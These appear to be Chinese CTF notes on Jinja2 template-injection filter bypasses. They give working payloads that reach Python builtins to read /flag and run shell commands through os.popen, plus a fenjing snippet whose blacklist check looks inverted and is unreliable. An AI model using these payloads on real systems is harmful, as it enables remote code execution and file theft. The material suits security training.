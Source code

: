 ```py
{%set a=(config|string|list).pop(74)%}  获得 _

{%set globals=(a,a,dict(globals=1)|join,a,a)|join%} 获得__globals__

{%set init=(a,a,dict(init=1)|join,a,a)|join%} 获得__init__

{%set builtins=(a,a,dict(builtins=1)|join,a,a)|join%} 获得__builtins__

{%set a=(lipsum|attr(globals)).get(builtins)%} 获得lipsum.__globals__['__builtins__']

{%set chr=a.chr%} 获得chr

{%print(a.open(chr(47)~chr(102)~chr(108)~chr(97)~chr(103)).read())%}
获得lipsum.__globals__['__builtins__'].open('/flag').read()
```

#### 过滤数字

(数字的过滤可以拿全角数字来代替半角数字)

还是join

`/?name={%set nummm=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}{%set numm=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}{%set num=dict(aaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}{%set x=(()|select|string|list).pop(num)%}{%set o=dict(o=a,s=b)|join%}{%set glob = (x,x,dict(globals=a)|join,x,x)|join %}{%set builtins=(x,x,dict(builtins=a)|join,x,x)|join%}{%set c=dict(chr=a)|join%}{%set chr=((lipsum|attr(glob)).get(builtins)).get(c)%}{%set cmd=chr(numm)~dict(flag=a)|join%}{%set cmd=dict(cat=a)|join~chr(nummm)~chr(numm)~dict(flag=a)|join%}{%print((lipsum|attr(glob)).get(o).popen(cmd).read())%}`

如下 count 可以用 length代替

```py
{%set nummm=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%} #32
{%set numm=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%} #47
{%set num=dict(aaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%} #24
{%set x=(()|select|string|list).pop(num)%} 获得_
{%set o=dict(o=a,s=b)|join%} 获得os
{%set glob = (x,x,dict(globals=a)|join,x,x)|join %} 获得__globals__
{%set builtins=(x,x,dict(builtins=a)|join,x,x)|join%} 获得__builtins__
{%set c=dict(chr=a)|join%} 获得字符串chr
{%set chr=((lipsum|attr(glob)).get(builtins)).get(c)%} 获得chr
{%set cmd=chr(numm)~dict(flag=a)|join%} 获得/flag
{%set cmd=dict(cat=a)|join~chr(nummm)~chr(numm)~dict(flag=a)|join%} 获得cat /flag
{%print((lipsum|attr(glob)).get(o).popen(cmd).read())%} 
```

#### fenjing

web370 371

[Python库](https://pypi.org/project/fenjing/)

```py
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

```
